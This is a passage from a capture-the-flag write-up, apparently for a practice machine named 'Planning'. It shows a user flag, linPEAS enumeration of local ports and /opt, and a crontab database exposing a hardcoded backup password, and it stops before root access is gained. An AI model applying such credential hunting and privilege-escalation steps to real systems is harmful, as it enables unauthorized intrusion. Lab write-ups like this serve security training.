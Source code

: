 ### 💰 Post Exploitation

#### 🚩 user.txt

Enzo holds the `user.txt` flag.

```
enzo@planning:~$ cat user.txt
d066965113447dd5b9d09f2c93275f1e
```

## 🕒 Time to get root access

### 🔎 Recon 

linPEAS shows that something is running on localhost port 8000 and that there are unusual directories under `/opt`.

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports
══╣ Active Ports (netstat)
tcp        0      0 127.0.0.1:34319         0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 ::1:8000                :::*                    LISTEN      321069/ssh

<SNIP>

╔══════════╣ Unexpected in /opt (usually empty)
total 16
drwxr-xr-x  4 root root 4096 Feb 28 19:21 .
drwxr-xr-x 22 root root 4096 Apr  3 14:40 ..
drwx--x--x  4 root root 4096 Feb 28 19:06 containerd
drwxr-xr-x  2 root root 4096 Jul  5 13:02 crontabs
```

This `/opt/crontabs/crontab.db` file stores scheduled tasks **including hardcoded passwords** (`P4ssw0rdS0pRi0T3c`), making it a serious security oversight.

```
enzo@planning:/opt/crontabs$ cat crontab.db
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```
